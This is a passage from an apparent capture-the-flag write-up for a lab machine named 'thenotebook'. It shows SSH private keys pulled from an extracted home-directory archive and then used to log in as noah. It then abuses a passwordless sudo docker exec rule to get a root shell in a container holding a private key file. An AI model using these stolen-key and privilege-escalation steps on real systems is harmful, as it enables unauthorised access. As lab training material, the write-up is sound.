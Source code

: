 Expanding the archive, noticed that the folder structure was from `noah`'s home directory, including some ssh keys that might be useful.

```bash
$ tar -xzvf home.tar.gz
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
home/noah/.ssh/
home/noah/.ssh/id_rsa
home/noah/.ssh/authorized_keys
home/noah/.ssh/id_rsa.pub
```

Using the key found, was able to connect using SSH as noah and retrieve the user flag.

```bash
$ ssh -i id_rsa noah@10.10.10.230
noah@thenotebook:~$ cat user.txt
<redacted>
```

## Root flag

As usual, before giving another try with `linenum.sh` with different privileges, ran `sudo -l` which returned the following content:

```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

As we have access to run any command in the docker container with **exec**, began by entering in an interactive shell as the command below.

```bash
sudo /usr/bin/docker exec -it webapp-dev01 bash
```

Inside the container, was able to see the files used while publishing the website, where we can look for sensitive information

```bash
root@7228ddf52a0f:/opt/webapp# ls -la
total 2244
drwxr-xr-x 1 root root    4096 Jun 11 07:04 .
drwxr-xr-x 1 root root    4096 Feb 12 07:30 ..
drwxr-xr-x 1 root root    4096 Feb 12 07:30 __pycache__
drwxr-xr-x 3 root root    4096 Nov 18  2020 admin
-rw-r--r-- 1 root root    3303 Nov 16  2020 create_db.py
-rwxr-xr-x 1 root root 2236814 Jun 11 07:04 main
-rw-r--r-- 1 root root    9517 Feb 11 15:00 main.py
-rw------- 1 root root    3247 Feb 11 15:09 privKey.key
-rw-r--r-- 1 root root      78 Feb 12 07:12 requirements.txt
drwxr-xr-x 3 root root    4096 Nov 19  2020 static
drwxr-xr-x 2 root root    4096 Nov 18  2020 templates
-rw-r--r-- 1 root root      20 Nov 20  2020 webapp.tar.gz
```